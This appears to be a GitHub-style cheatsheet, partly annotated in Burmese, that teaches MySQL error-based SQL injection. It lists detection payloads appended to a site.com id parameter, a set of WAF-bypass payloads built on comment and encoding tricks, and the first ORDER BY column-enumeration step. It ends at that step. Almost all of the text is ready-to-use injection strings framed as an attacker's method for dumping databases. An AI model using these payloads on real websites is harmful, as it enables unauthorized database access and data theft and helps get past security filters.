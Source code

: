 # MySQL Error based SQL Injection Cheatsheet

This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the MySQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability
```
<code>https://site.com/index.php?id=1</code>
Website load successfully.

အဲ့တာကိုကျွန်တော်တို့ အနောက်ကနေ ' လေးထည့်ပေးလိုက်ရင် အောက်ကပုံစံမျိုး error message ကျလာမှာဖြစ်ပါတယ်။
<code>https://site.com/index.php?id=1'</code>
Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1\'</code>
Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1 and 0' order by 1--+</code>
ဒီလိုထည့်လိုက်ရင်တော့ website ကပုံမှန်အတိုင်း ပြန်ပြီးအလုပ်လုပ်သွားမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=2-1</code>
Website loads successfully.

<code>https://site.com/index.php?id=-1'</code>
Error message shows up again

<code>https://site.com/index.php?id=-1)'</code>
Error message shows up again

<code>https://site.com/index.php?id=1'-- -</code>
Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1'--</code>
Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1+--+</code>
Website might loads successfuly, but it might shows error also
```
# Bypassing WAF to detect the vulnerability (if the first methodology didn't work)
In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.
```
<code>https://site.com/index.php?id=1'--/**/-</code>
If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payloads.

<code>https://site.com/index.php?id=/^.*1'--+-.*$/</code>
<code>https://site.com/index.php?id=/*!500001'--+-*/</code>
<code>https://site.com/index.php?id=1'--/**/-</code>
<code>https://site.com/index.php?id=1'--/*--*/-</code>
<code>https://site.com/index.php?id=1'--/*&a=*/-</code>
<code>https://site.com/index.php?id=1'--/*1337*/-</code>
<code>https://site.com/index.php?id=1'--/**_**/-</code>
<code>https://site.com/index.php?id=1'--%0A-</code>
<code>https://site.com/index.php?id=1'--%0b-</code>
<code>https://site.com/index.php?id=1'--%0d%0A-</code>
<code>https://site.com/index.php?id=1'--%23%0A-</code>
<code>https://site.com/index.php?id=1'--%23foo%0D%0A-</code>
<code>https://site.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-</code>
<code>https://site.com/index.php?id=1'--#qa%0A#%0A-</code>
<code>https://site.com/index.php?id=/*!20000%0d%0a1'--+-*/</code>
<code>https://site.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/</code>
```
## Find the number of columns using 'ORDER BY' query
Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY
```
<code>https://site.com/index.php?id=1' order by 1-- -</code>
This query musn't shows up error, since there is no lower number than 1
```
